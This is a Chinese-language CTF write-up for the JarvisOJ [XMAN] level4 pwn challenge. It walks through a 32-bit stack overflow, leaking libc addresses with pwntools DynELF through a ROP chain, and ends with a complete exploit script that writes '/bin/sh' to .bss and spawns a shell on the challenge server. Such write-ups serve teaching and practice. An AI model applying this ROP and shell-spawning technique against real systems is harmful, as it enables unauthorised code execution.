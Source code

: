 ```yaml
---
title: XMAN level4 の Write-Up
date: 2020-06-22 10:46:32
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- ROP
- Stack
---
```

## Introduction

这是JarvisOJ的PWN题部分[XMAN]level4的Write-Up，题目思路上和level3一样，只不过在细节处理上有稍微的不一样。本题中由于不知道libc的版本，，所以需要pwntools的DynELF模块寻找函数的内存地址。

<!-- more -->

## Step 1

程序运行图：

![](/img/XMAN-level4/XMAN1.png)

checksec：32位程序，仅开启DEP保护

![](/img/XMAN-level4/XMAN2.png)

## Step 2

把程序丢到hopper中，发现vulnerable_function函数中的read函数存在溢出漏洞：

![](/img/XMAN-level4/XMAN3.png)

但是程序中既找不到system函数也找不到`/bin/sh`的字符串：

![](/img/XMAN-level4/XMAN4.png)

![](/img/XMAN-level4/XMAN5.png)

所以第一反应是和[level3](https://coldwave96.github.io/2020/05/20/XMAN-level3/)一样，leak出libc地址然后调用libc中的system函数。

但是有个问题是我们不知道libc库的版本，所以我们需要通过pwntools的DynELF来寻找system函数的地址。

DynELF是pwntools中专门用来应对没有libc情况的漏洞利用模块，在提供一个目标程序任意地址内存泄露函数的情况下，可以解析任意加载库的人铱符号地址。具体原理解析可以看FREEBUF上的[Pwntools之DynELF原理探究](https://www.freebuf.com/articles/system/193646.html)一文。

这样我们的思路就很清楚了：

* 通过vulerable_function()的read()栈溢出构造ROP创造任意地址内存泄露函数

* 结合上一步的函数，利用DynELF获取libc中的system()函数的真实地址

* 通过vulerable_function()的read()栈溢出构造ROP将‘/bin/sh\x00’通过read()写入bss段

* 通过vulerable_function()的read()栈溢出构造ROP执行system(‘/bin/sh’)得到shell

## Step 3

直接给出EXP脚本：

```Python
* # coding:utf-8
* from pwn import *
* 
* sh = remote('pwn2.jarvisoj.com', 9880)
* elf = ELF('./level4')
* 
* write_plt = elf.plt['write']
* vuln_addr = elf.symbols['vulnerable_function']
* 
* # 定义leak()泄露任意函数地址
* def leak(addr):
*     payload = 'a' * (0x88 + 0x4) + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(addr) + p32(4)
*     sh.sendline(payload)
*     leak_addr = sh.recv(4)
*     return leak_addr
* 
* # 获取sysetem()函数地址
* dynelf = DynELF(leak, elf = elf)
* sys_addr = dynelf.lookup('system', 'libc')
* 
* print('system addr: ' + hex(sys_addr))
* 
* read_plt = elf.plt['read']
* bss_addr = 0x804a024
* 
* # 往内存中写入shellcode
* payload1 = 'a' * (0x88 + 0x4) + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(8)
* sh.sendline(payload1)
* sh.send('/bin/sh\x00')
* 
* # 执行system()函数get shell
* payload2 = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0) + p32(bss_addr)
* sh.sendline(payload2)
* 
* sh.interactive()
* sh.close()
```

脚本运行结果图：

![](/img/XMAN-level4/XMAN6.png)